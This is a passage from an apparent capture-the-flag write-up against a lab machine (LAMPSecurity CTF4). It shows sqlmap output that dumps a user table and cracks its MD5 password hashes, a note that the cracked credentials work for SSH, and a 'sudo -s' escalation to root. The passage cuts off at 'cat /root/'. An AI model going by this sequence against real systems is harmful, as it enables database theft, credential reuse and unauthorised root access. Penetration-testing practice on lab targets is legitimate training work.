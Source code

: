>
[12:15:35] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[12:15:36] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:15:36] [INFO] starting 4 processes
[12:15:37] [INFO] cracked password 'Homesite' for user 'pmoore'                                                                                                                       
[12:15:38] [INFO] cracked password 'Sue1978' for user 'jdurbin'                                                                                                                       
[12:15:39] [INFO] cracked password 'ilike2surf' for user 'dstevens'                                                                                                                   
[12:15:42] [INFO] cracked password 'pacman' for user 'sorzek'                                                                                                                         
[12:15:42] [INFO] cracked password 'undone1' for user 'ghighland'                                                                                                                     
[12:15:43] [INFO] cracked password 'seventysixers' for user 'achen'                                                                                                                   
[12:15:44] [INFO] postprocessing table dump                                                                                                                                           
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+

[12:15:44] [WARNING] table 'ehks.`user`' dumped to CSV file '/root/.sqlmap/output/192.168.30.147/dump/ehks/user-f3649c95.csv'
[12:15:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.30.147'

{% endhighlight %}

## SSH Login

All the dumped accounts appeared to have matching SSH accounts sharing the same credentials as the vulnerable web application.

## Linux Local Privilege Escalation  

The account <code>achen</code> was a memeber of the sudo group.

The command <code>sudo -s</code> was executed, successfully escalating privileges to super user.

{% highlight bash %}

[achen@ctf4 ~]$ sudo -s
[root@ctf4 ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf4 ~]# cat /root/
{% endhighlight %}

